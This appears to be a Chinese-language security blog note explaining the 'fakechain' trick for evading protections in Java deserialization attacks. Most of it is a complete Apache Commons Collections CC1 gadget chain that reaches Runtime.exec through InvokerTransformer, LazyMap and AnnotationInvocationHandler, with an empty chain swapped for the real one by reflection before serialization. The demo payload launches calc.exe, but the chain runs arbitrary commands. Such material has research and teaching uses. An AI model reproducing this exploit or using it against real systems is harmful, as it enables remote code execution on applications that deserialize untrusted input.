

一些trick
目录
fakechain
fakechain是一种对安全防护Bypass的一种手段。
给Lazymap或者TransformerMap 设置ChainedTransformer 对象时，可以在其中先放置一个空的Transformer对象，在反序列化前最后一步再通过反射将ChainedTransformer 对象内部的itransformer属性改回到真正的chain。（itransformer 属性是ChainedTransformer 内部存储Transformer对象的数组）

以CC1为例。
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;
public class Main {
public static void main(String[] args) throws Exception {
//定义两个chain
Transformer[] chain= new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, new Object[]{"calc.exe"})};
Transformer[] fakechain = new Transformer[]{};
//定义一个ChainedTransformer ，并传入fakechain
ChainedTransformer chainedTransformer = new ChainedTransformer(fakechain);
Map innermap = new HashMap();
Map outermap = LazyMap.decorate(innermap, chainedTransformer);
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
cons.setAccessible(true);
InvocationHandler handler = (InvocationHandler) cons.newInstance(Override.class,outermap);
Map Prox = (Map) Proxy.newProxyInstance(outermap.getClass().getClassLoader(), outermap.getClass().getInterfaces(),handler);
InvocationHandler handler1 = (InvocationHandler) cons.newInstance(Override.class,Prox);
//通过反射修改chainedTransformer对象的itransformers
Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(chainedTransformer, chain);
ObjectOutputStream a = new ObjectOutputStream(new FileOutputStream("a.bin"));
a.writeObject(handler1);
ObjectInputStream b = new ObjectInputStream(new FileInputStream("a.bin"));
b.readObject();
}
}
另外可以通过这种方式防止在反序列化前调用ChainedTransformer内部的chain触发命令执行，在分析代码的时候能够起到一定的帮助（减少干扰）。